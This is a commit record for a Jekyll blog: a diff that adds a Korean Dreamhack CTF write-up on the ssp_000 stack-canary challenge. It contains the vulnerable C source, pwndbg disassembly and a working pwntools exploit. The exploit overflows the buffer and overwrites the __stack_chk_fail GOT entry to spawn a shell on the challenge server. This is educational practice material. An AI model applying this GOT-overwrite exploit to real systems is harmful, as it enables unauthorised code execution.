

Before and after one commit to dig06161/dig06161.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high. Shown: the whole window at 94% size, without its empty margins (0-975 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown.

Commit message:
dreamhack pwn ssp_000

````diff
--- a/_posts/2022-12-18-dreamhack-pwn-environ.md
+++ b/_posts/2022-12-18-dreamhack-pwn-environ.md
@@ -3,9 +3,9 @@ published: true
 image: /img
 layout: post
 title: Dreamhack 시스템 해킹 environ
-tags: [BOB]
+tags: [Dreamhack, pwnable, ctf, writeup]
 math: true
-date: 2022-06-26 17:30
+date: 2022-12-20 17:30
 ---
 
 오랜만에 풀어보는 시스템 해킹이다.
--- /dev/null
+++ b/_posts/2202-12-21-dreamhack-pwn-ssp000.md
@@ -0,0 +1,159 @@
+---
+published: true
+image: /img
+layout: post
+title: Dreamhack 시스템 해킹 ssp_000
+tags: [Dreamhack, pwnable, ctf, writeup]
+math: true
+date: 2022-12-21 17:30
+---
+
+이번 ssp_000문제는 카나리에 대한 문제다. 메모리 스텍의 오염을 인식하고 오염되었을 경우 바이너리를 강제 종료시키는 기능을 한다. 스텍 사이에 랜덤의 값을 넣고 이를 검사해 스텍이 오버플로우 되었는지 확인한다. 이렇게 메모리 커럽션을 어렵게 하는 기법을 Stack Smashing Protector(SSP)라고 한다.
+
+우선 먼저 코드를 살펴보자.
+```c
+#include <stdio.h>
+#include <stdlib.h>
+#include <signal.h>
+#include <unistd.h>
+
+
+void alarm_handler() {
+    puts("TIME OUT");
+    exit(-1);
+}
+
+
+void initialize() {
+    setvbuf(stdin, NULL, _IONBF, 0);
+    setvbuf(stdout, NULL, _IONBF, 0);
+
+    signal(SIGALRM, alarm_handler);
+    alarm(30);
+}
+
+void get_shell() {
+    system("/bin/sh");
+}
+
+int main(int argc, char *argv[]) {
+    long addr;
+    long value;
+    char buf[0x40] = {};
+
+    initialize();
+
+
+    read(0, buf, 0x80);
+
+    printf("Addr : ");
+    scanf("%ld", &addr);
+    printf("Value : ");
+    scanf("%ld", &value);
+
+    *(long *)addr = value;
+
+    return 0;
+}
+```
+
+함수로 쉘이 함수로 있고 main함수는 간단한 버퍼 오버플로우를 일으킬 수 있다. 다만 실행시킨 바이너리의 카나리 값을 릭할 방법이 마땅치 않는다. 이 경우는 조금 생각을 해볼 필요가 있다. 만약 스텍을 오염시키면 __stack_chk_fail 함수가 실행되면서 종료가 될것이다.
+
+다만 main함수를 보면 원하는 위치에 값을 바꿔쓸수 있는것을 볼수 있다. 이를 이용해 스텍이 오버플로우 되었을때 동작할 함수를 __stack_chk_fail가 아닌 get_shell함수로 바꿔주면 쉘을 얻을 수 있을 것이다.
+
+우선 main함수의 어셈블리를 확인해보자
+```c
+   0x00000000004008fb <+0>:     push   rbp
+   0x00000000004008fc <+1>:     mov    rbp,rsp
+   0x00000000004008ff <+4>:     sub    rsp,0x70
+   0x0000000000400903 <+8>:     mov    DWORD PTR [rbp-0x64],edi
+   0x0000000000400906 <+11>:    mov    QWORD PTR [rbp-0x70],rsi
+   0x000000000040090a <+15>:    mov    rax,QWORD PTR fs:0x28
+   0x0000000000400913 <+24>:    mov    QWORD PTR [rbp-0x8],rax
+   0x0000000000400917 <+28>:    xor    eax,eax
+   0x0000000000400919 <+30>:    lea    rdx,[rbp-0x50]
+   0x000000000040091d <+34>:    mov    eax,0x0
+   0x0000000000400922 <+39>:    mov    ecx,0x8
+   0x0000000000400927 <+44>:    mov    rdi,rdx
+   0x000000000040092a <+47>:    rep stos QWORD PTR es:[rdi],rax
+   0x000000000040092d <+50>:    mov    eax,0x0
+   0x0000000000400932 <+55>:    call   0x40088e <initialize>
+   0x0000000000400937 <+60>:    lea    rax,[rbp-0x50]
+   0x000000000040093b <+64>:    mov    edx,0x80
+   0x0000000000400940 <+69>:    mov    rsi,rax
+   0x0000000000400943 <+72>:    mov    edi,0x0
+   0x0000000000400948 <+77>:    call   0x400710 <read@plt>
+   0x000000000040094d <+82>:    mov    edi,0x400a55
+   0x0000000000400952 <+87>:    mov    eax,0x0
+   0x0000000000400957 <+92>:    call   0x4006f0 <printf@plt>
+   0x000000000040095c <+97>:    lea    rax,[rbp-0x60]
+   0x0000000000400960 <+101>:   mov    rsi,rax
+   0x0000000000400963 <+104>:   mov    edi,0x400a5d
+   0x0000000000400968 <+109>:   mov    eax,0x0
+   0x000000000040096d <+114>:   call   0x400750 <__isoc99_scanf@plt>
+   0x0000000000400972 <+119>:   mov    edi,0x400a61
+   0x0000000000400977 <+124>:   mov    eax,0x0
+   0x000000000040097c <+129>:   call   0x4006f0 <printf@plt>
+   0x0000000000400981 <+134>:   lea    rax,[rbp-0x58]
+   0x0000000000400985 <+138>:   mov    rsi,rax
+   0x0000000000400988 <+141>:   mov    edi,0x400a5d
+   0x000000000040098d <+146>:   mov    eax,0x0
+   0x0000000000400992 <+151>:   call   0x400750 <__isoc99_scanf@plt>
+   0x0000000000400997 <+156>:   mov    rax,QWORD PTR [rbp-0x60]
+   0x000000000040099b <+160>:   mov    rdx,rax
+   0x000000000040099e <+163>:   mov    rax,QWORD PTR [rbp-0x58]
+   0x00000000004009a2 <+167>:   mov    QWORD PTR [rdx],rax
+   0x00000000004009a5 <+170>:   mov    eax,0x0
+   0x00000000004009aa <+175>:   mov    rcx,QWORD PTR [rbp-0x8]
+   0x00000000004009ae <+179>:   xor    rcx,QWORD PTR fs:0x28
+   0x00000000004009b7 <+188>:   je     0x4009be <main+195>
+   0x00000000004009b9 <+190>:   call   0x4006d0 <__stack_chk_fail@plt>
+   0x00000000004009be <+195>:   leave
+   0x00000000004009bf <+196>:   ret
+```
+
+우리가 해당 바이너리를 익스하기 위해 필요한 것은 두가지다. get_shell 함수의 주소와 __stack_chk_fail 함수의 got 주소이다. 이것들 모두 쉽게 확인할 수 있다. __stack_chk_fail의 got는 해당 함수 plt의 주소를 disass 하면 확인할 수 있다.
+
+```c
+pwndbg> disass get_shell
+Dump of assembler code for function get_shell:
+   0x00000000004008ea <+0>:     push   rbp
+   0x00000000004008eb <+1>:     mov    rbp,rsp
+   0x00000000004008ee <+4>:     mov    edi,0x400a4d
+   0x00000000004008f3 <+9>:     call   0x4006e0 <system@plt>
+   0x00000000004008f8 <+14>:    nop
+   0x00000000004008f9 <+15>:    pop    rbp
+   0x00000000004008fa <+16>:    ret
+End of assembler dump.
+```
+
+```c
+pwndbg> disass 0x4006d0
+Dump of assembler code for function __stack_chk_fail@plt:
+   0x00000000004006d0 <+0>:     jmp    QWORD PTR [rip+0x20094a]        # 0x601020 <__stack_chk_fail@got.plt>
+   0x00000000004006d6 <+6>:     push   0x1
+   0x00000000004006db <+11>:    jmp    0x4006b0
+End of assembler dump.
+```
+
+get_shell 함수의 주소는 0x4008ea, __stack_chk_fail 함수의 got값은 0x601020로 확인할 수 있다. 이를 바탕으로 __stack_chk_fail함수 주소를 get_shell 함수로 바꾸기 위해 익스플로잇 코드를 작성해봤다. 해당 익스 코드는 다음과 같다.
+
+```python
+from pwn import *
+context.update(arch='amd64', os='linux')
+
+c = remote("host3.dreamhack.games", 22697);
+
+stackChkFail = 0x601020
+getShell = 0x4008ea
+
+paylaod = "\x90"*0x50
+
+c.send(paylaod)
+c.sendlineafter(b"Addr : ", str(stackChkFail))
+c.sendlineafter(b"Value : ", str(getShell))
+
+c.interactive()
+```
+
+간단하게 카나리 부분을 덮어쓰기 하여 __stack_chk_fail를 인위적으로 일으키면 그전에 바꿔치기한 함수인 get_shell이 실행된다.
````
